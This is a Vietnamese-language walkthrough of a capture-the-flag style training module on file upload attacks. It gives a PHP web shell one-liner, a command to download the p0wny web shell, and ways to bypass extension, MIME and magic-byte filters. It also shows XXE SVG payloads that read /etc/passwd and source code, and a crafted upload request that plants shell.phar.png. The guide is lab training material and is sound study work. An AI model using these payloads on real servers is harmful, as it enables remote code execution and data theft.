


# Absent Validation

#### Questions

+ 1  Try to upload a PHP script that executes the (hostname) command on the back-end server, and submit the first word of it as the answer.

```zsh
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```


# Upload Exploitation
#### Questions
+ 1  Try to exploit the upload feature to upload a web shell and get the content of /flag.txt

Một trong những webshell yêu thích của tôi: `p0wny shell`

```zsh
wget https://raw.githubusercontent.com/flozz/p0wny-shell/refs/heads/master/shell.php
```

```url
http://94.237.57.115:57879/uploads/shell.php
```


# Client-Side Validation

#### Questions
+ 1  Try to bypass the client-side file type validations in the above exercise, then upload a web shell to read /flag.txt (try both bypass methods for better practice)

Method 1: Bypass via burpsuite request (Backend modification)

Try to upload a valid image then catch the request in burp


Method 2: Bypass via html (Front-end modification)


Để ý ở hàm check file có lẽ ở `onsubmit="if(validate()){upload()}"`, nếu hàm `validate()` trả về `true`, nó sẽ chạy hàm `upload()` cho phép tải tệp lên. Giờ chúng ta chỉ cần sửa cho nó luôn thực thi tải file lên.


Trong request nó sẽ như thế này


# Blacklist Filters

#### Questions
+ 2  Try to find an extension that is not blacklisted and can execute PHP code on the web server, and use it to read "/flag.txt"

Chúng ta sẽ thử upload như phần trước


Nhận thấy rằng `extension` không được cho phép, vậy ta sẽ brute force extensions

File từ điển mà tôi sẽ thử: `/usr/share/wordlists/seclists/Discovery/Web-Content/web-extensions.txt`


Bỏ chọn auto url encode


Tôi sẽ thử với `.php2`


Tôi đã thất bại với `.php2`, vì thế tôi thử các extension khác và `.phar` hoạt động!


# Whitelist Filters
#### Question
+ 2  The above exercise employs a blacklist and a whitelist test to block unwanted extensions and only allow image extensions. Try to bypass both to upload a PHP script and execute code to read "/flag.txt"

Tôi đã thử bypass theo double extensions, nhưng nó chỉ loại bỏ được blacklist filter



Chúng ta sẽ thử `reverse double extension`, payload mà tôi dùng sẽ là từ:

```url
https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/refs/heads/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst
```


Tôi sẽ thử với `.phar.png`


# Type Filters

#### Questions
+ 2  The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"

Đầu tiên chúng ta cần bypass extension


Có một số extension có vẻ hoạt động


Vậy tôi sẽ thử thêm `magic byte` là `GIF8` vào nội dung file


Có vài cái hoạt động, tuy vậy khi thử thì không thể hiển thị được content, do đó tôi nghĩ tệp cấu hình không cho thực thi loại file này.


Do đó tôi sẽ thử `double extension` xuôi hoặc ngược


Tiếp theo chúng ta sẽ thử từng cái xem cái nào có thể thực thi


# Limited File Uploads

#### Questions

+ 2  The above exercise contains an upload functionality that should be secure against arbitrary file uploads. Try to exploit it using one of the attacks shown in this section to read "/flag.txt"

Nội dung trong file `test.svg`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

Sau đó chúng ta tải lên và xem nguồn trang


Sửa thành `flag.txt`


Sau đó request bình thường đến trang chủ


+ 2  Try to read the source code of 'upload.php' to identify the uploads directory, and use its name as the answer. (write it exactly as found in the source, without quotes)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```

Sửa nội dung file trong request như trên.

```zsh
echo -n 'PD9waHAKJHRhcmdldF9kaXIgPSAiLi9pbWFnZXMvIjsKJGZpbGVOYW1lID0gYmFzZW5hbWUoJF9GSUxFU1sidXBsb2FkRmlsZSJdWyJuYW1lIl0pOwokdGFyZ2V0X2ZpbGUgPSAkdGFyZ2V0X2RpciAuICRmaWxlTmFtZTsKJGNvbnRlbnRUeXBlID0gJF9GSUxFU1sndXBsb2FkRmlsZSddWyd0eXBlJ107CiRNSU1FdHlwZSA9IG1pbWVfY29udGVudF90eXBlKCRfRklMRVNbJ3VwbG9hZEZpbGUnXVsndG1wX25hbWUnXSk7CgppZiAoIXByZWdfbWF0Y2goJy9eLipcLnN2ZyQvJywgJGZpbGVOYW1lKSkgewogICAgZWNobyAiT25seSBTVkcgaW1hZ2VzIGFyZSBhbGxvd2VkIjsKICAgIGRpZSgpOwp9Cgpmb3JlYWNoIChhcnJheSgkY29udGVudFR5cGUsICRNSU1FdHlwZSkgYXMgJHR5cGUpIHsKICAgIGlmICghaW5fYXJyYXkoJHR5cGUsIGFycmF5KCdpbWFnZS9zdmcreG1sJykpKSB7CiAgICAgICAgZWNobyAiT25seSBTVkcgaW1hZ2VzIGFyZSBhbGxvd2VkIjsKICAgICAgICBkaWUoKTsKICAgIH0KfQoKaWYgKCRfRklMRVNbInVwbG9hZEZpbGUiXVsic2l6ZSJdID4gNTAwMDAwKSB7CiAgICBlY2hvICJGaWxlIHRvbyBsYXJnZSI7CiAgICBkaWUoKTsKfQoKaWYgKG1vdmVfdXBsb2FkZWRfZmlsZSgkX0ZJTEVTWyJ1cGxvYWRGaWxlIl1bInRtcF9uYW1lIl0sICR0YXJnZXRfZmlsZSkpIHsKICAgICRsYXRlc3QgPSBmb3BlbigkdGFyZ2V0X2RpciAuICJsYXRlc3QueG1sIiwgInciKTsKICAgIGZ3cml0ZSgkbGF0ZXN0LCBiYXNlbmFtZSgkX0ZJTEVTWyJ1cGxvYWRGaWxlIl1bIm5hbWUiXSkpOwogICAgZmNsb3NlKCRsYXRlc3QpOwogICAgZWNobyAiRmlsZSBzdWNjZXNzZnVsbHkgdXBsb2FkZWQiOwp9IGVsc2UgewogICAgZWNobyAiRmlsZSBmYWlsZWQgdG8gdXBsb2FkIjsKfQo=' | base64 -d > upload.php
```


# Skills Assessment - File Upload Attacks

---

You are contracted to perform a penetration test for a company's e-commerce web application. The web application is in its early stages, so you will only be testing any file upload forms you can find.

Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validations in place (if any) to gain remote code execution on the back-end server.

---

## Extra Exercise

Try to note down the main security issues found with the web application and the necessary security measures to mitigate these issues and prevent further exploitation.

#### Questions
+ 7  Try to exploit the upload form to read the flag found at the root directory "/".

Tại mục contact, có thể đính kèm file hình ảnh lên, đây có lẽ là điều cần khai thác.


Tôi  thử upload một file lên và đây  là request


Sau đó tôi thử upload file `.php`


Có vẻ như đây chỉ là lọc phía client


Chúng ta có thể dễ dàng vượt qua, nhưng điều quan trọng là: chúng ta không thấy có nội dung file được upload lên thông qua request mà đơn thuần chỉ là tên file? Chúng ta sẽ đọc mã nguồn của `/contact/script.js`


Như vậy sau khi chọn file, ta phải bấm vào nút tải lên.


Nó có một request gửi đến server nếu nội dung hợp lệ



Sau đó tôi thử upload một file `.php`


Và  theo như `script.js`, file tải  lên phải có extension sau đây:
```js
 if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
```

Tôi sẽ thử double extension và để `.png` ở giữa.

Sau đó tôi fuzzing với Burpsuite Intruder, từ điển mà tôi dùng là `/usr/share/wordlists/seclists/Discovery/Web-Content/web-extensions.txt`


Kết quả mong đợi sẽ là `Only images are allowed` thay vì `Extension not allowed`.

Như vậy length  226 và 227 là đã bước đầu thành công vượt mặt được extension filters.

Tôi sẽ thử thêm magic byte như `GIF8` hoặc `.PNG` vào đầu nội dung của file xem sao.


Có vẻ vẫn không được, vậy hãy thử với  `Content-type`.

Tạo từ điển chỉ gồm các loại image/x

```zsh
cat /usr/share/wordlists/seclists/Discovery/Web-Content/web-all-content-types.txt | grep 'image/' > image-content-types.txt
```

Sau khi thử nhiều cách không được, tôi đọc gợi ý và biết được  rằng, ta phải thử `content type` (đó là điều tôi đã làm, tuy nhiên ta phải thử với nội dung gốc của `png`). Do đó chưa vội thêm nội dung payload vào vội, tôi sẽ fuzz luôn.


Chúng ta có cả `svg+xml`


Như vậy khả năng sẽ là tấn công `XXE` để đọc nội dung.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```


Chúng ta sẽ lợi dụng điều này để đọc mã nguồn `upload.php`

```php
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}
```

Và nội dung của file `common-functions.php`

```php
<?php

function displayHTMLImage($imageFile)
{
    $type = mime_content_type($imageFile);

    switch ($type) {
        case 'image/jpg':
            echo "";
            break;
        case 'image/jpeg':
            echo "";
            break;
        case 'image/png':
            echo "";
            break;
        case 'image/gif':
            echo "";
            break;
        case 'image/svg+xml':
            libxml_disable_entity_loader(false);
            $doc = new DOMDocument();
            $doc->loadXML(file_get_contents($imageFile), LIBXML_NOENT | LIBXML_DTDLOAD);
            $svg = $doc->getElementsByTagName('svg');
            echo $svg->item(0)->C14N();
            break;
        default:
            echo "Image type not recognized";
    }
}
```

Hãy phân tích một chút:

**require_once** : file để băm thành base64 hiển thị dưới dạng `src='data:image/jpg;base64,"`

`$target_dir = "./user_feedback_submissions/";` là thư mục lưu file tải lên

`$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);`
`$target_file = $target_dir . $fileName;`

File sẽ bị đổi tên theo định dạng năm+tháng+ngày_tên ban đầu. ví dụ ta tải lên test.png thì nó sẽ là `20250307_test.png` hoặc `250307_test.png` và nó sẽ nằm tại `http://<IP>:<PORT>/contact/user_feedback_submissions/20250702_test.png` hoặc `http://<IP>:<PORT>/contact/user_feedback_submissions/250702_test.png`

**Black list** bao gồm `php,phps,phtml`

**White list** bao gồm 2-3 kí tự trong khoảng a-z và g ở cuối tức là `jpg, jpeg, png, svg...`

**Content-type** là `image/` + 2-3 kí tự ở cuối là g (`jpg,jpeg,png,svg`)

Bạn có thể tìm signature của các loại file ở đây: https://en.wikipedia.org/wiki/List_of_file_signatures

Hãy linh hoạt thay thế `jpg, png, jpeg` cho nhau, ở đây dù là png nhưng tôi buộc phải dùng signature của jpg là `ÿØÿà`

```request
-----------------------------19144457554584686353677152917

Content-Disposition: form-data; name="uploadFile"; filename="shell.phar.png"

Content-Type: image/png


ÿØÿà

<?php system($_GET["cmd"]); ?>

-----------------------------19144457554584686353677152917--
```

Cuối cùng ta chỉ cần

